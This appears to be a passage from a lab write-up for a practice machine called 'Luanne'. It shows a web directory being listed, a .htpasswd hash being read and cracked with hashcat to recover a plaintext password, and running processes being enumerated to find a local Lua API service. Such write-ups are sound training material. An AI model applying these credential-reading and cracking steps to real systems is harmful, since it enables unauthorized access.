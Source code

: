 - check 80 port http service directory:
  - `index.html`: need credential to get authenticated
  - `robots.txt`
  - `.htpasswd`: hash value => crack: `iamthebest`

```console
$ ls -al
total 20
drwxr-xr-x   2 root  wheel  512 Nov 25  2020 .
drwxr-xr-x  24 root  wheel  512 Nov 24  2020 ..
-rw-r--r--   1 root  wheel   47 Sep 16  2020 .htpasswd
-rw-r--r--   1 root  wheel  386 Sep 17  2020 index.html <- authenticated resource
-rw-r--r--   1 root  wheel   78 Nov 25  2020 robots.txt
$ cat .htpasswd
webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
```

```console
└─╼$ hashcat -m 500 -a 0 hash /usr/share/wordlists/rockyou.txt --show
$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0:iamthebest
```

- enum processes in this machine

![image-20240129033622837](./Luanne.assets/image-20240129033622837.png)

```console
$ ps auxw | grep michael | grep -v grep
r.michaels   185  0.0  0.0  39032  1976 ?     Is   10:12AM 0:00.00 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3001 -L weather /hom
$ ps auxww | grep michael | grep -v grep
r.michaels   185  0.0  0.0  39032  1976 ?     Is   10:12AM 0:00.00 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3001 -L weather /home/r.michaels/devel/webapi/weather.lua -P /var/run/httpd_devel.pid -U r.michaels -b /home/r.michaels/devel/www
```
